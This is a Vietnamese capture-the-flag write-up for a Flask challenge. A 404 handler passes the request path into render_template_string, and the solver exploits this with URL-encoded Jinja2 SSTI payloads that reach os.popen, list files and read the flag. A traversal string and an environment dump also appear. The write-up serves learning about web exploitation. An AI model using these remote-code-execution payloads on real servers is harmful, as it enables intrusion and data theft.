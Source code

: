 # ASCIS - Web 3
**Solver: goldensang**

### 1. Context
Ban đầu bài này cho code, chỉ có 1 file thôi là **main.py**
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import os
from flask import Flask, render_template_string, abort, request

app = Flask(__name__)


@app.errorhandler(404)
def page_not_found(e):
    if e.description:
        template = \
            '''
		<h1> Secbiz library </h1>
		<div class ="row">
		<div class = "col-md-6 col-md-offset-3 center" >
		Oops! Why you don't look at our <a href="/"> library</a>?
        <p></p>
        <b>%s</b> not found
		</div>
		</div>
		''' % e.description
    else:
        template = \
            '''
		<h1> Secbiz library </h1>
		<div class ="row">
		<div class = "col-md-6 col-md-offset-3 center" >
		Oops! Why you don't look at our <a href="/"> library</a>?
		</div>
		</div>
		'''

    return (render_template_string(template), 404)

app.register_error_handler(404, page_not_found)


@app.route('/', defaults={'req_path': ''})
@app.route('/<path:req_path>')
def dir_listing(req_path):
    debug_mode = request.args.get('DEBUG_MODE_ENABLED', None)
    BASE_DIR = os.environ['BASE_DIR']

    # Joining the base and the requested path
    abs_path = os.path.join(BASE_DIR, req_path.replace('../', ''))

    # Return 404 if path doesn't exist
    if not os.path.exists(abs_path):
        return abort(404, description=(req_path if debug_mode else ''))
    

    # Check if path is a file and serve

    if os.path.isfile(abs_path):
        return open(abs_path, 'rb').read()

    # Show directory contents
    files = os.listdir(abs_path)
    return render_template_string("""
        <h1>Welcome to Secbiz library</h1>
        <ul>
        {% for file in files %}
        <li>
        <a href="{{ (request.path + '/' if request.path != '/' else '') + file }}">
            {{ (request.path + '/' if request.path != '/' else '') + file }}
        </a>
        </li>
        {% endfor %}
        </ul>
        """,files=files)

if __name__ == '__main__':
    app.run(debug=True, host='127.0.0.1', port=5000)

```

Thoạt nhìn bài này thị có thể LFI - Directory Traversal, thì cũng có 1 payload work, nhưng tụi mình bị bí payload này:
 /%2e%2e%2e%2f%2e%2f/%2e%2e%2e%2f%2e%2
 
 Nhưng tụi mình không biết làm gì tiếp theo với payload
 
 Sau khi ngồi đọc code 1 xíu, thì mình thấy một khúc rất hay:
 ```python
@app.errorhandler(404)
def page_not_found(e):
    if e.description:
        template = \
            '''
        <h1> Secbiz library </h1>
        <div class ="row">
        <div class = "col-md-6 col-md-offset-3 center" >
        Oops! Why you don't look at our <a href="/"> library</a>?
        <p></p>
        <b>%s</b> not found
        </div>
        </div>
        ''' % e.description
    else:
        template = \
            '''
        <h1> Secbiz library </h1>
        <div class ="row">
        <div class = "col-md-6 col-md-offset-3 center" >
        Oops! Why you don't look at our <a href="/"> library</a>?
        </div>
        </div>
        '''
    return (render_template_string(template), 404)
```
Thì sau khi phân tích flow chạy thì mình nhận ra như sau:
Request -> dir_listing() -> DEBUG_MODE_ENABLE=true, nên khi gọi vào hàm 404, thì nó sẽ inject req.path để exec SSTI -> trả về giá trị qua e.message

Thì vấn đề bây giờ là tìm payload SSTI phù hợp, thì sau khi test 1 hồi thì payload mình xài là:
```
7B%25%20for%20x%20in%20%28%29.__class__.__base__.__subclasses__%28%29%20%25%7D%7B%25%20if%20%22warning%22%20in%20x.__name__%20%25%7D%7B%7Bx%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.popen%28%22ls%22%29.read%28%29%7D%7D%7B%25endif%25%7D%7B%25%20endfor%20%25%7D?DEBUG_MODE_ENABLED=true
```

Tụi mình check printenv để tìm ra vị trí flag:```
UWSGI_ORIGINAL_PROC_NAME=/usr/local/bin/uwsgi SUPERVISOR_GROUP_NAME=uwsgi **FLAG_DIR**=/opt/y5oyqodQ3BCjCdVSxQuL HOSTNAME=2878e057461a PYTHON_PIP_VERSION=20.1 HOME=/root GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568 UWSGI_INI=/app/uwsgi.ini NGINX_MAX_UPLOAD=0 UWSGI_PROCESSES=16 STATIC_URL=/static PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/1fe530e9e3d800be94e04f6428460fc4fb94f5a9/get-pip.py UWSGI_CHEAPER=2 BASE_DIR=/opt/data PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 SUPERVISOR_ENABLED=1 PYTHON_VERSION=3.8.2 NGINX_WORKER_PROCESSES=1 SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock SUPERVISOR_PROCESS_NAME=uwsgi LISTEN_PORT=80 STATIC_INDEX=0 PWD=/app PYTHON_GET_PIP_SHA256=ce486cddac44e99496a702aa5c06c5028414ef48fdfd5242cd2fe559b13d4348 STATIC_PATH=/app/static PYTHONPATH=/app UWSGI_RELOADS=0 not found
```
**FLAG_DIR**=/opt/y5oyqodQ3BCjCdVSxQuL

rồi sau đó chỉ việc cat đó ra thôi
Final payload:
```
http://45.77.33.129:5000/%7B%25%20for%20x%20in%20%28%29.__class__.__base__.__subclasses__%28%29%20%25%7D%7B%25%20if%20%22warning%22%20in%20x.__name__%20%25%7D%7B%7Bx%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.popen%28%22cat%20..%2Fopt%2Fy5oyqodQ3BCjCdVSxQuL%22%29.read%28%29%7D%7D%7B%25endif%25%7D%7B%25%20endfor%20%25%7D?DEBUG_MODE_ENABLED=true
```
